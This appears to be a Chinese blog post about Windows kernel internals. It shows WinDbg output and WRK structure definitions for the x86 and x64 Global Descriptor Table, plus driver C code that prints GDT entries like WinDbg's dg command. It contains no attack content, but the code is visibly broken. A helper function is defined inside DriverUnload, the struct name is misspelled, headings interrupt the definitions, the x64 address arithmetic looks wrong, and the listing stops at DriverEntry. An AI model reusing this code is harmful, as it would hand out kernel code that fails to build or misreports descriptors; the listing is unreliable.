| 01B0 | 00008003 | 0000f1b8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01B8 | 00008003 | 0000f1c0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01C0 | 00008003 | 0000f1c8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01C8 | 00008003 | 0000f1d0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01D0 | 00008003 | 0000f1d8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01D8 | 00008003 | 0000f1e0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01E0 | 00008003 | 0000f1e8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01E8 | 00008003 | 0000f1f0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01F0 | 00008003 | 0000f1f8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01F8 | 00008003 | 0000f200 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0200 | 00008003 | 0000f208 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0208 | 00008003 | 0000f210 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0210 | 00008003 | 0000f218 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0218 | 00008003 | 0000f220 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0220 | 00008003 | 0000f228 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0228 | 00008003 | 0000f230 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0230 | 00008003 | 0000f238 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0238 | 00008003 | 0000f240 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0240 | 00008003 | 0000f248 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0248 | 00008003 | 0000f250 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0250 | 00008003 | 0000f258 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0258 | 00008003 | 0000f260 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0260 | 00008003 | 0000f268 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0268 | 00008003 | 0000f270 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0270 | 00008003 | 0000f278 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0278 | 00008003 | 0000f280 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0280 | 00008003 | 0000f288 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0288 | 00008003 | 0000f290 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0290 | 00008003 | 0000f298 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0298 | 00008003 | 0000f2a0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02A0 | 00008003 | 0000f2a8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02A8 | 00008003 | 0000f2b0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02B0 | 00008003 | 0000f2b8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02B8 | 00008003 | 0000f2c0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02C0 | 00008003 | 0000f2c8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02C8 | 00008003 | 0000f2d0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02D0 | 00008003 | 0000f2d8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02D8 | 00008003 | 0000f2e0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02E0 | 00008003 | 0000f2e8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02E8 | 00008003 | 0000f2f0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02F0 | 00008003 | 0000f2f8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 02F8 | 00008003 | 0000f300 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0300 | 00008003 | 0000f308 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0308 | 00008003 | 0000f310 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0310 | 00008003 | 0000f318 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0318 | 00008003 | 0000f320 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0320 | 00008003 | 0000f328 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0328 | 00008003 | 0000f330 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0330 | 00008003 | 0000f338 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0338 | 00008003 | 0000f340 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0340 | 00008003 | 0000f348 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0348 | 00008003 | 0000f350 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0350 | 00008003 | 0000f358 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0358 | 00008003 | 0000f360 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0360 | 00008003 | 0000f368 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0368 | 00008003 | 0000f370 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0370 | 00008003 | 0000f378 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0378 | 00008003 | 0000f380 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0380 | 00008003 | 0000f388 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0388 | 00008003 | 0000f390 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0390 | 00008003 | 0000f398 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0398 | 00008003 | 0000f3a0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03A0 | 00008003 | 0000f3a8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03A8 | 00008003 | 0000f3b0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03B0 | 00008003 | 0000f3b8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03B8 | 00008003 | 0000f3c0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03C0 | 00008003 | 0000f3c8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03C8 | 00008003 | 0000f3d0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03D0 | 00008003 | 0000f3d8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03D8 | 00008003 | 0000f3e0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03E0 | 00008003 | 0000f3e8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03E8 | 00008003 | 0000f3f0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03F0 | 00008003 | 0000f3f8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 03F8 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |

我们的功能就是要解析出这样的格式。注意，另外一个话题是：也可以手动分析出这个格式，如：

```text
kd> r cs
cs=00000008
```

然后根据一定的算法得出的结论要如下（一种思路是根据 _KGDTENTRY 的定义）：

```text
kd> dg cs

                          P Si Gr Pr Lo
Sel      Base      Limit      Type      l ze an es ng Flags
---- -------- -------- -------- -- --- -- -- -- -- --------
0008 00000000 ffffffff Code RE Ac 0 Bg Pg P   Nl 00000c9b
```

这个算法就不说了，相信你会的。GDT 就是一个（数组格式的）表，里面的每一项是一个 Segment Descriptors。

关于这个的格式，可见 Intel 64 and IA-32 Architectures Software Developer’s Manual（Order Number: 325462-055US June 2015）的 Volume 3: System Programming Guide 的 3.4.5 Segment Descriptors 小节及附图。

Segment Descriptors 具体分两大类：一类是 application (code or data) descriptor，这就是常见的代码/数据段，如大多数的 CS、DS 都指向这里；一类是 system descriptor，这里又分为 system-segment descriptors（LDT and TSS segments）。但是，这些结构在 Windows 下的定义是什么样的呢？经查 WRK 和 WINDBG，结果如下：

```c
// Special Registers for i386
typedef struct _X86_DESCRIPTOR {
    USHORT    Pad;
    USHORT    Limit;
    ULONG     Base;
} X86_DESCRIPTOR, *PX86_DESCRIPTOR;

// GDT Entry
typedef struct _KGDTENTRY {
    USHORT    LimitLow;
    USHORT    BaseLow;
    union {
        struct {
            UCHAR    BaseMid;
            UCHAR    Flags1;      // Declare as bytes to avoid alignment
            UCHAR    Flags2;      // Problems.
            UCHAR    BaseHi;
        } Bytes;
        struct {
            ULONG    BaseMid : 8;
            ULONG    Type : 5; // 把 S 位包含进去了，也就是是否为系统段描述符的位。
            ULONG    Dpl : 2;
            ULONG    Pres : 1;
            ULONG    LimitHi : 4;
            ULONG    Sys : 1; // 即 AVL，系统软件自定义的。
            ULONG    Reserved_0 : 1; // LongMode
            ULONG    Default_Big : 1; // 即 INTEL 的 D/B (default operation size/default stack pointer size and/or upper bound) flag。
```

```c
    ULONG      Granularity : 1;
    ULONG      BaseHi : 8;
} Bits;
} HighWord;
} KGDTENTRY, *PKGDTENTRY;
```

#### KGDTENTRY 说明

为什么定义的名字是 **KGDTENTRY** 呢？其实你想想结构的位置。这个其实就是 Segment Descriptors，但是定义和 Intel 的不完全一样。

```text
kd> dt nt!_KGDTENTRY
   +0x000 LimitLow            : Uint2B
   +0x002 BaseLow             : Uint2B
   +0x004 HighWord            : __unnamed
kd> dt nt!_KGDTENTRY -b
   +0x000 LimitLow            : Uint2B
   +0x002 BaseLow             : Uint2B
   +0x004 HighWord            : __unnamed
      +0x000 Bytes            : __unnamed
         +0x000 BaseMid       : UChar
         +0x001 Flags1        : UChar
         +0x002 Flags2        : UChar
         +0x003 BaseHi        : UChar
      +0x000 Bits             : __unnamed
         +0x000 BaseMid       : Pos 0, 8 Bits
         +0x000 Type          : Pos 8, 5 Bits
         +0x000 Dpl           : Pos 13, 2 Bits
         +0x000 Pres          : Pos 15, 1 Bit
         +0x000 LimitHi       : Pos 16, 4 Bits
         +0x000 Sys           : Pos 20, 1 Bit
         +0x000 Reserved_0    : Pos 21, 1 Bit
         +0x000 Default_Big   : Pos 22, 1 Bit
         +0x000 Granularity   : Pos 23, 1 Bit
         +0x000 BaseHi        : Pos 24, 8 Bits
```


上面分析的是 32 位下的 Windows 系统，再看看 64 位下 Windows 的 GDT。

```text
0: kd> vertarget
Windows 7 Kernel Version 7601 (Service Pack 1) MP (2 procs) Free x64
Built by: 7601.18869.amd64fre.win7sp1_gdr.150525-0603
Machine Name:
Kernel base = 0xfffff800`01e64000 PsLoadedModuleList = 0xfffff800`020ab730
Debug session time: Thu Aug 6 14:37:33.359 2015 (UTC +8:00)
System Uptime: 0 days 0:13:15.757
0: kd> r gdtr
gdtr=fffff80001d51000
0: kd> r gdtl
gdtl=007f
0: kd> db fffff80001d51000 L(007f + 1)
fffff800`01d51000    00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00    ................
fffff800`01d51010    00 00 00 00 00 9b 20 00-ff ff 00 00 00 93 cf 00    ...... ........
fffff800`01d51020    ff ff 00 00 00 fb cf 00-ff ff 00 00 00 f3 cf 00    ...............
fffff800`01d51030    00 00 00 00 00 fb 20 00-00 00 00 00 00 00 00 00    ..... ........
fffff800`01d51040    67 00 80 20 d5 8b 00 01-00 f8 ff ff 00 00 00 00    g.. ...........
fffff800`01d51050    00 3c 00 a0 f9 f3 40 ff-00 00 00 00 00 00 00 00    .<....@.........
fffff800`01d51060    ff ff 00 00 00 9a cf 00-00 00 00 00 00 00 00 00    ...............
fffff800`01d51070    00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00    ................
0: kd> dg 0 80
```

| Sel  | Base                  | Limit                 | Type                      | Flags                      |
|------|-----------------------|-----------------------|---------------------------|----------------------------|
| 0000 | 00000000`00000000     | 00000000`00000000     | \<Reserved>               | 0 Nb By Np Nl 00000000     |
| 0008 | 00000000`00000000     | 00000000`00000000     | \<Reserved>               | 0 Nb By Np Nl 00000000     |
| 0010 | 00000000`00000000     | 00000000`00000000     | Code RE Ac 0 Nb By P      | Lo 0000029b                |
| 0018 | 00000000`00000000     | 00000000`ffffffff     | Data RW Ac 0 Bg Pg P      | Nl 00000c93                |
| 0020 | 00000000`00000000     | 00000000`ffffffff     | Code RE Ac 3 Bg Pg P      | Nl 00000cfb                |
| 0028 | 00000000`00000000     | 00000000`ffffffff     | Data RW Ac 3 Bg Pg P      | Nl 00000cf3                |
| 0030 | 00000000`00000000     | 00000000`00000000     | Code RE Ac 3 Nb By P      | Lo 000002fb                |
| 0038 | 00000000`00000000     | 00000000`00000000     | \<Reserved>               | 0 Nb By Np Nl 00000000     |
| 0040 | 00000000`01d52080     | 00000000`00000067     | TSS32 Busy 0 Nb By P      | Nl 0000008b                |
| 0048 | 00000000`0000ffff     | 00000000`0000f800     | \<Reserved>               | 0 Nb By Np Nl 00000000     |
| 0050 | ffffffff`fff9a000     | 00000000`00003c00     | Data RW Ac 3 Bg By P      | Nl 000004f3                |
| 0058 | 00000000`00000000     | 00000000`00000000     | \<Reserved>               | 0 Nb By Np Nl 00000000     |
| 0060 | 00000000`00000000     | 00000000`ffffffff     | Code RE 0 Bg Pg P         | Nl 00000c9a                |
| 0068 | 00000000`00000000     | 00000000`00000000     | \<Reserved>               | 0 Nb By Np Nl 00000000     |
| 0070 | 00000000`00000000     | 00000000`00000000     | \<Reserved>               | 0 Nb By Np Nl 00000000     |
| 0078 | 00000000`00000000     | 00000000`00000000     | \<Reserved>               | 0 Nb By Np Nl 00000000     |
| 0080 | Unable to get descriptor |                       |                           |                            |

## WRK 及 WINDBG 的相关（验证）信息

```c
// Special Registers for AMD64.
typedef struct _AMD64_DESCRIPTOR {
    USHORT    Pad[3];
    USHORT    Limit;
    ULONG64   Base;
} AMD64_DESCRIPTOR, *PAMD64_DESCRIPTOR;

typedef union _KGDTENTRY64 {
struct {
    USHORT   LimitLow;
    USHORT   BaseLow;
    union {
        struct {
            UCHAR   BaseMiddle;
            UCHAR   Flags1;
            UCHAR   Flags2;
            UCHAR   BaseHigh;
        } Bytes;
        struct {
            ULONG   BaseMiddle : 8;
            ULONG   Type : 5; // 把 S 位包含进去了，也就是是否为系统段描述符的位。
            ULONG   Dpl : 2;
            ULONG   Present : 1;
            ULONG   LimitHigh : 4;
            ULONG   System : 1; // 即 AVL，系统软件自定义的。
            ULONG   LongMode : 1;
            ULONG   DefaultBig : 1; // 即 INTEL 的 D/B (default operation size/default stack pointer size and/or upper bound) flag。
            ULONG   Granularity : 1;
            ULONG   BaseHigh : 8;
        } Bits;
    };
    //ULONG BaseUpper;
    //ULONG MustBeZero;
};
//ULONG64 Alignment;
} KGDTENTRY64, *PKGDTENTRY64;
```

```text
0: kd> dt _KGDTENTRY64
hal!_KGDTENTRY64
   +0x000 LimitLow         : Uint2B
   +0x002 BaseLow          : Uint2B
   +0x004 Bytes            : <unnamed-tag>
   +0x004 Bits             : <unnamed-tag>
   +0x008 BaseUpper        : Uint4B
   +0x00c MustBeZero       : Uint4B
   +0x000 Alignment        : Uint8B

0: kd> dt _KGDTENTRY64 -b
hal!_KGDTENTRY64
   +0x000 LimitLow         : Uint2B
   +0x002 BaseLow          : Uint2B
   +0x004 Bytes            : <unnamed-tag>
```

| Offset/Field     | Type/Desc        |
|------------------|------------------|
| +0x000 BaseMiddle | UChar           |
| +0x001 Flags1     | UChar           |
| +0x002 Flags2     | UChar           |
| +0x003 BaseHigh   | UChar           |
| +0x004 Bits       | \<unnamed-tag>  |
| +0x000 BaseMiddle | Pos 0, 8 Bits   |
| +0x000 Type       | Pos 8, 5 Bits   |
| +0x000 Dpl        | Pos 13, 2 Bits  |
| +0x000 Present    | Pos 15, 1 Bit   |
| +0x000 LimitHigh  | Pos 16, 4 Bits  |
| +0x000 System     | Pos 20, 1 Bit   |
| +0x000 LongMode   | Pos 21, 1 Bit   |
| +0x000 DefaultBig | Pos 22, 1 Bit   |
| +0x000 Granularity| Pos 23, 1 Bit   |
| +0x000 BaseHigh   | Pos 24, 8 Bits  |
| +0x008 BaseUpper  | Uint4B          |
| +0x00c MustBeZero | Uint4B          |
| +0x000 Alignment  | Uint8B          |

注意：

- 以上只分析一个 CPU 的情况，如果计算机有多颗 CPU，要分别处理。
- 为了和 WINDBG 的 DG 命令处理/显示的相似，特意根据 INTEL 的 Table 3-1. Code- and Data-Segment Types，制作一个字符串数组，但还有待改善。
- GetGdtLimit 的这个功能没有相应的 C 代码，只有汇编代码（.asm 文件），包括 X86 和 X64。

最后只有代码了，具体如下：

```c
/*
功能：显示每个 CPU 的 GDT 信息。
注释：以下结构摘自 WRK。
homepage:http://correy.webs.com 注释：需翻墙，有的翻墙软件也打不开。
*/

#include <ntifs.h>
#include <windef.h>
#if defined(_AMD64_) || defined(_IA64_) // defined(_WIN64)

// Special Registers for AMD64.
typedef struct _AMD64_DESCRIPTOR {
    USHORT    Pad[3];
    USHORT    Limit;
    ULONG64   Base;
} AMD64_DESCRIPTOR, *PAMD64_DESCRIPTOR;

typedef union _KGDTENTRY64 {
    struct {
        USHORT    LimitLow;
        USHORT    BaseLow;
        union {
            struct {
                UCHAR    BaseMiddle;
                UCHAR    Flags1;
                UCHAR    Flags2;
                UCHAR    BaseHigh;
            } Bytes;
            struct {
                ULONG    BaseMiddle : 8;
                ULONG    Type : 5; // 把 S 位包含进去了，也就是是否为系统段描述符的位。
                ULONG    Dpl : 2;
                ULONG    Present : 1;
                ULONG    LimitHigh : 4;
                ULONG    System : 1; // 即 AVL，系统软件自定义的。
                ULONG    LongMode : 1;
                ULONG    DefaultBig : 1; // 即 INTEL 的 D/B（default operation size/default
                // stack pointer size and/or upper bound）flag。
                ULONG    Granularity : 1;
                ULONG    BaseHigh : 8;
            } Bits;
        };
        // ULONG BaseUpper; /* 宏观察，64 下的结构的长度是 6 字节，不是上面定义的 16 字节。*/
        // ULONG MustBeZero;
    };
    // ULONG64 Alignment;
} KGDTENTRY64, *PKGDTENTRY64;

#else
// Special Registers for i386
typedef struct _X86_DESCRIPTOR {
    USHORT    Pad;
    USHORT    Limit;
    ULONG     Base;
} X86_DESCRIPTOR, *PX86_DESCRIPTOR;

// GDT Entry
typedef struct _KGDTENTRY {
    USHORT    LimitLow;
    USHORT    BaseLow;
    union {
```

#### 结构与段类型定义

```c
struct {
    UCHAR    BaseMid;
    UCHAR    Flags1;        // Declare as bytes to avoid alignment
    UCHAR    Flags2;        // Problems.
    UCHAR    BaseHi;
} Bytes;

struct {
    ULONG    BaseMid : 8;
    ULONG    Type : 5; // 把 S 位包含进去了，也就是是否为系统段描述符的位。
    ULONG    Dpl : 2;
    ULONG    Pres : 1;
    ULONG    LimitHi : 4;
    ULONG    Sys : 1; // 即 AVL，系统软件自定义的。
    ULONG    Reserved_0 : 1; // LongMode
    ULONG    Default_Big : 1; // 即 INTEL 的 D/B（default operation size/default stack pointer size and/or upper bound）flag。
    ULONG    Granularity : 1;
    ULONG    BaseHi : 8;
} Bits;

} HighWord;
} KGDENTRY, *PKGDENTRY;

#endif

/*
根据：Table 3-1. Code- and Data-Segment Types，仿照 WINDBG 的 dg 命令定义。
*/
char SegmentTypes[][256] = {
    "<Reserved>", // Data Read-Only 缩写是：Data RO，也可以认为是：<Reserved>。如果结构（UINT64）全部为零，也可以认为是 Reserved。
    "Data RO AC", // Data Read-Only, accessed
    "Data RW", // Data Read/Write
    "Data RW AC", // Data Read/Write, accessed
    "Data RO ED", // Data Read-Only, expand-down
    "Data RO ED AC", // Data Read-Only, expand-down, accessed
    "Data RW ED", // Data Read/Write, expand-down
    "Data RW ED AC", // Data Read/Write, expand-down, accessed
    "Code EO", // Code Execute-Only
    "Code EO AC", // Code Execute-Only, accessed
    "Code RE", // Code Execute/Read
    "Code RE AC", // Code Execute/Read, accessed
    "Code EO CO", // Code Execute-Only, conforming
    "Code EO CO AC", // Code Execute-Only, conforming, accessed
    "Code RE CO", // Code Execute/Read, conforming
    "Code RE CO AC", // Code Execute/Read, conforming, accessed
    "TSS32 Busy", // 这个也可显示，只要识别了 TSS 及内容。
    "TSS32 Avl"   // 这个在 X86 上出现了。
};

DRIVER_UNLOAD DriverUnload;
VOID DriverUnload(__in PDRIVER_OBJECT DriverObject)
{
#ifdef _X86_
__forceinline PKPCR KeGetPcr(VOID)
{
    return (PKPCR)__readfsdword(FIELD_OFFSET(KPCR, SelfPcr));
}
#endif

USHORT NTAPI GetGdtLimit(); // 汇编函数。
```

#### show_gdt（x64）

```c
#if defined(_WIN64)
void show_gdt(int i)
/*
    i 的取值可以是 0.
*/
{
    // SIZE_T IDTR;
    // X86_DESCRIPTOR gdtr = {0}; // A pointer to the memory location where the IDTR is stored.
    // KGDTENTRY * GDT = 0;
    USHORT GdtLimit = 0;
    SIZE_T r = 0;
    PVOID p = 0;
    int index = 0;
    int maximun = 0;
    PKGDTENTRY64 pkgdte;
    SIZE_T ISR = 0;
    KeSetSystemAffinityThread(i + 1);
    pkgdte = KeGetPcr()->GdtBase; // 没有 __sgdt，也不用 sgdt 汇编指令的方法。但是这个获取的没有长度。
    GdtLimit = GetGdtLimit(); // 一般等于 0x7f.
    KeRevertToUserAffinityThread();
    // p = &gdtr.Limit;
    // r = *(SIZE_T *)p;
    // pkgdte = (PKGDTENTRY)r;
    /*
    其实直接 maximun = (idtr.Base + 1) / sizeof(KIDTENTRY); 也可以。maximun 一般等于 256。
    */
    // if (gdtr.Pad % sizeof(KIDTENTRY) == 0) {
    //     maximun = gdtr.Pad / sizeof(KIDTENTRY);
    // } else {
    //     maximun = gdtr.Pad / sizeof(KIDTENTRY);
    //     maximun++;
    // }
    // if (GdtLimit % sizeof(KGDTENTRY64) == 0) {
    //     maximun = GdtLimit / sizeof(KGDTENTRY64);
    // } else {
    //     maximun = GdtLimit / sizeof(KGDTENTRY64);
    //     maximun++; // 一般是 128.
    // }
    maximun = (GdtLimit + 1) / sizeof(KGDTENTRY64);

    /*
    显示格式:
    CPU SN Sel            Base            Limit           Type      Pl Size Gran Pres Long
    Flags
    注释：CPU 和 SN 是自己添加的。SN 即 Segment Name，如 CS、DS、FS 等。
    */
    KdPrint(("Sel             Base            Limit           Type     DPl Size Gran  Pres Long Flags\n")); // CPU SN
    KdPrint(("---- ---------------- ---------------- ---- --- ---- ---- ---- ---- ----------------\n")); // ------
    KdPrint(("\n"));

    for (; index < maximun; index++)
    {
        PKGDTENTRY64 pkgdte_t = &pkgdte[index];
        SIZE_T Base = 0;
        SIZE_T Limit = 0;
        ULONG Type = 0;
        char *size = NULL;
        char *Granularity = NULL;
        char *Present = NULL;
        char *LongMode = NULL;
        int Flags = 0;

        Base = pkgdte_t->Bits.BaseHigh;
        Base = (Base << 24);
        Base += (pkgdte_t->BaseLow + (pkgdte_t->Bits.BaseMiddle << 16));
        Limit = pkgdte_t->LimitLow + (pkgdte_t->Bits.LimitHigh << 16);

        if (pkgdte_t->Bits.DefaultBig && Base)
        {
            // 扩充高位为 1，即 F.
            Base += 0xffffff00000000;
        }

        if (pkgdte_t->Bits.DefaultBig && pkgdte_t->Bits.Granularity)
        {
            // 扩充高位为 1，即 F.
            SIZE_T t = Limit;
            Limit = (Limit << 12);
            Limit += PAGE_SIZE - 1;
        }

        Type = pkgdte_t->Bits.Type;
        _bittestandreset(&Type, 4); // 因为这个包含了 S 位，所以要清除这个位标志。

        if (pkgdte_t->Bits.DefaultBig)
            size = "Bg  "; // Big，加空格是为了对齐显示。
        else
            size = "Nb  "; // Not Big，加空格是为了对齐显示。

        if (pkgdte_t->Bits.Granularity)
            Granularity = "Pg  "; // Page，加空格是为了对齐显示。
        else
            Granularity = "By  "; // Byte，加空格是为了对齐显示。

        if (pkgdte_t->Bits.Present)
            Present = "P   "; // Present，加空格是为了对齐显示。
        else
            Present = "NP  "; // NO Present，加空格是为了对齐显示。

        if (pkgdte_t->Bits.LongMode)
            LongMode = "Lo  "; // Long，加空格是为了对齐显示。
        else
            LongMode = "Nl  "; // NO long，加空格是为了对齐显示。

        Flags = (pkgdte_t->Bytes.Flags2 >> 4); // 去掉 Segment limit 的那几位。
        Flags = Flags << 8;
        Flags = Flags + pkgdte_t->Bytes.Flags1;

        KdPrint(("%04x %p %p %13s %03x %s %s %s %s 0x%04x\n",
            index * 8, // sizeof(KGDTENTRY)
            Base,
            Limit,
            SegmentTypes[Type],
            pkgdte_t->Bits.Dpl,
            size,
            Granularity,
            Present,
            LongMode,
            Flags
        ));
    }
}
```

#### show_gdt（x86）

```c
#else
void show_gdt(int i)
/*
i 的取值可以是 0.
*/
{
    // SIZE_T IDTR;
    // X86_DESCRIPTOR gdtr = {0}; // A pointer to the memory location where the IDTR is stored.
    // KGDTENTRY * GDT = 0;
    USHORT GdtLimit = 0;
    SIZE_T r = 0;
    PVOID p = 0;
    int index = 0;
    int maximun = 0;
    PKGDTENTRY pkgdte;
    SIZE_T ISR = 0;
    KeSetSystemAffinityThread(i + 1);
    pkgdte = KeGetPcr()->GDT; // 没有 ssgdt，也不用 sgdt 汇编指令的办法。但是这个获取的没有长度。
    GdtLimit = GetGdtLimit(); // 一般等于 0x3ff.
    KeRevertToUserAffinityThread();
    // p = &gdtr.Limit;
    // r = *(SIZE_T *)p;
    // pkgdte = (PKGDTENTRY)r;
    /*
    其实直接：
    maximun = (idtr.Base + 1) / sizeof(KIDTENTRY);
    也可以。
    maximun 一般等于 256.
    */
    // if (gdtr.Pad % sizeof(KIDTENTRY) == 0) {
    //     maximun = gdtr.Pad / sizeof(KIDTENTRY);
    // } else {
    //     maximun = gdtr.Pad / sizeof(KIDTENTRY);
    //     maximun++;
    // }
    if (GdtLimit % sizeof(KGDTENTRY) == 0) {
        maximun = GdtLimit / sizeof(KGDTENTRY);
    } else {
        maximun = GdtLimit / sizeof(KGDTENTRY);
        maximun++; // 一般是 128.
    }

    /*
    显示格式:
    CPU SN Sel            Base                 Limit           Type      Pl Size Gran Pres Long
    Flags
    ---- -- ---- ---------------- ------------ -- ---- ---- ---- ----
    注释：CPU 和 SN 是自己添加的。SN 即 Segment Name，如：CS、DS、FS 等。
    */
    KdPrint(("Sel    Base                 Limit           Type  DPl  Size  Gran  Pres  Long  Flags\n")); // CPU SN
    KdPrint(("---- ---- ---------------- ------------ ---- ---- ---- ---- ---- ----\n"));
    KdPrint(("\n"));

    for (; index < maximun; index++)
    {
        PKGDTENTRY pkgdte_t = &pkgdte[index];
        SIZE_T Base = 0;
        SIZE_T Limit = 0;
        ULONG Type = 0;
        char *size = NULL;
        char *Granularity = NULL;
        char *Present = NULL;
        char *LongMode = NULL;
        int Flags = 0;

        // 注意：0x38 处的值不停地变化。
        USHORT BaseLow = pkgdte_t->BaseLow;
        ULONG  BaseMid = pkgdte_t->HighWord.Bits.BaseMid;
        ULONG  BaseHi  = pkgdte_t->HighWord.Bits.BaseHi;
        Base = (BaseHi << 24) + (BaseMid << 16) + BaseLow; // 其实用位或更快 | 。

        if ((pkgdte_t->HighWord.Bits.Granularity) &&
            BooleanFlagOn(pkgdte_t->HighWord.Bits.Type, 2)) // 关于标志位及算法，见权威资料。
        {
            Limit = pkgdte_t->LimitLow + (pkgdte_t->HighWord.Bits.LimitHi << 16);
            Limit *= PAGE_SIZE;
            Limit += PAGE_SIZE - 1;
        }
        else {
            Limit = pkgdte_t->LimitLow + (pkgdte_t->HighWord.Bits.LimitHi << 16);
        }

        Type = pkgdte_t->HighWord.Bits.Type;
        _bittestandreset(&Type, 4); // 因为这个包含了 S 位，所以要清除这个位标志。

        if (pkgdte_t->HighWord.Bits.Default_Big)
            size = "Bg    "; // Big  加空格是为了对齐显示。
        else
            size = "Nb    "; // Not Big  加空格是为了对齐显示。

        if (pkgdte_t->HighWord.Bits.Granularity)
            Granularity = "Pg    "; // Page  加空格是为了对齐显示。
        else
            Granularity = "By    "; // Byte  加空格是为了对齐显示。

        if (pkgdte_t->HighWord.Bits.Pres)
            Present = "P      "; // Present  加空格是为了对齐显示。
        else
            Present = "NP    "; // NO Present  加空格是为了对齐显示。

        if (pkgdte_t->HighWord.Bits.Reserved_0)
            LongMode = "Lo    "; // Long  加空格是为了对齐显示。
        else
            LongMode = "Nl    "; // NO long  加空格是为了对齐显示。

        Flags = (pkgdte_t->HighWord.Bytes.Flags2 >> 4); // 去掉 Segment limit 的那几位。
        Flags = Flags << 8;
        Flags = Flags + pkgdte_t->HighWord.Bytes.Flags1;

        KdPrint(("%04x %p %p %13s %03x %s %s %s %s 0x%04x\n",
            index * 8, // sizeof(KGDTENTRY)
            Base,
            Limit,
            SegmentTypes[Type],
```

```c
pkgdte_t->HighWord.Bits.Dpl,
size,
Granularity,
Present,
LongMode,
Flags
));

}
}
#endif
```

```c
#pragma INITCODE
DRIVER_INITIALIZE DriverEntry;
